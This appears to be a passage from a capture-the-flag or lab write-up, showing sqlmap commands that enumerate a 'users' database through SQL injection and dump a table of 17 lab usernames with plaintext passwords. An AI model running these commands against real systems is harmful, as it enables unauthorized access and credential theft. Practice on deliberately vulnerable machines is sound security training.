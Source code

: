 ```bash
sqlmap -r 1.txt --tables -D "users"
```

```sql
Database: users
[1 table]
+-------------+
| UserDetails |
+-------------+
```

```
sqlmap -r 1.txt --columns -T "UserDetails" -D "users"
```

```sql
Database: users
Table: UserDetails
[6 columns]
+-----------+-----------------+
| Column    | Type            |
+-----------+-----------------+
| firstname | varchar(30)     |
| id        | int(6) unsigned |
| lastname  | varchar(30)     |
| password  | varchar(20)     |
| reg_date  | timestamp       |
| username  | varchar(30)     |
+-----------+-----------------+
```

```bash
sqlmap -r 1.txt --dump -C "username,password" -T "UserDetails" -D "users"
```

```sql
Database: users
Table: UserDetails
[17 entries]
+-----------+---------------+
| username  | password      |
+-----------+---------------+
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |
+-----------+---------------+
```
